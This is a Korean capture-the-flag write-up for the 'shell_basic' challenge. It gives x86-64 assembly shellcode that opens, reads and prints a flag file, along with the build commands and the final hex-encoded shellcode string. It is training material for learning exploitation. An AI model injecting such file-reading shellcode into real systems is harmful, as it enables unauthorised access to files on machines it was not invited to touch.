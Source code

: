 ## shell_basic
---

입력한 셸코드를 실행하는 프로그램입니다.

main 함수가 아닌 다른 함수들은 execve, execveat 시스템 콜을 사용하지 못하도록 하며, 풀이와 관련이 없는 함수입니다.

flag 위치와 이름은 ```/home/shell_basic/flag_name_is_loooooong```입니다.

<br><br>

## Solution 1
---

어셈블리 코드를 짜서 보냈다.

<br>

```nasm
; File name: shellcode.asm

section .text
global _shell

_shell:

    ; Flag Path : /home/shell_basic/flag_name_is_loooooong
    ; 2f686f6d652f7368 656c6c5f62617369 632f666c61675f6e 616d655f69735f6c 6f6f6f6f6f6f6e67
    ; int fd = open("/home/shell_basic/flag_name_is_loooooong",R_DONLY,NULL)
    
    ; xor rax, rax    ; NULL,
    ;push rax
    push 0x0 ; NULL
    mov rax, 0x676e6f6f6f6f6f6f ;6f6f6f6f6f6f6e67
    push rax
    mov rax, 0x6c5f73695f656d61 ; 616d655f69735f6c
    push rax
    mov rax, 0x6e5f67616c662f63 ; 632f666c61675f6e
    push rax
    mov rax, 0x697361625f6c6c65 ; 656c6c5f62617369
    push rax
    mov rax, 0x68732f656d6f682f ; 2f686f6d652f7368
    push rax
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 0x2
    syscall

    ; read(fd, buf, 0x30)
    mov rdi, rax
    mov rsi, rsp
    sub rsi, 0x30
    mov rdx, 0x30
    xor rax, rax
    syscall

    ; write(1, buf, 0x30)
    mov rdi, 0x1
    mov rax, 0x1
    syscall
```

<br>

```linux
$ nasm -f elf64 shellcode.asm
$ objcopy --dump-section .text=shellcode.bin shellcode.o
$ xxd shellcode.bin
```

<br>

출력 결과를 보고 16진수 형태의 바이트를 만들어 주면 된다. (일일이 해야만 하나?)

따라서 만들어진 셸코드는 아래와 같다.

<br>

shellcode = ```\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb8\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\xba\x30\x00\x00\x00\xb8\x00\x00\x00\x00\x0f\x05\xbf\x01\x00\x00\x00\xb8\x01\x00\x00\x00\x0f\x05\x48\x31\xff\xb8\x3c\x00\x00\x00\x0f\x05```

<br>

그 전에 내가 만들었던 셸코드는 되지 않았는데, 차이점은 널바이트를 넣는 방식에서 나는 ```xor rax, rax```, ```push rax```를 하였고, 위의 셸코드는 ```push 0x0```으로 하였다는 것뿐이다.

